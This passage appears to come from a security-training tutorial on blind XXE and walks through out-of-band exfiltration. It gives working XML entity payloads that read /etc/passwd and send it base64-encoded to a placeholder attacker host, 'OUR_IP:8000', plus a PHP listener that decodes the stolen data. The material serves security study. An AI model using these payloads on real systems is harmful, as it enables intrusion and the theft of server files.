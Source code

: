 However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.
## Blind Data Exfiltration
Here we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.
### Out-of-band Data Exfiltration
If we try to repeat any of the previous methods, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web app response. 

For cases like this, we can utilize a method known as ``Out-of-band (OOB) Data Exfiltration``, which is often used in similar blind cases with many web attacks, like ``blind SQL injections``, ``blind command injections``, ``blind XSS``, and ``blind XXE``. 

In our previous attacks, we utilized an ``out-of-band`` attack since we hosted the **DTD** file in our machine and made the web app connect to us (hence ``out-of-band``). 

So, our attack this time will be pretty similar, with one significant difference. Instead of having the web app output our file entity to a specific XML entity, we will make the web app send a web request to our web server with the content of the file we are reading.

To do so: 
* We can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to **base64** encode it. 
* Then, we will create another external parameter entity and reference it to **our IP**, and place the ``file`` parameter value as part of the URL being requested over HTTP, 

This is as follows:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
If the file we want to read had the content of ``XXE_SAMPLE_DATA``, then the ``file`` parameter would hold its **base64 encoded data** (``WFhFX1NBTVBMRV9EQVRB``). 

When the XML tries to reference the external ``oob`` parameter from our machine, it will request ``http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB``. 

Finally, we can decode the ``WFhFX1NBTVBMRV9EQVRB`` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
So, we will first write the above PHP code to ``index.php``, and then start a **PHP server** on port ``8000``, as follows:
```bash
$ nano index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```
Now, to initiate our attack, we can use a similar payload to the one we used in the ``error-based`` attack, and simply add ``<root>&content;</root>``, which is needed to reference our entity and have it send the request to our machine with the file content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```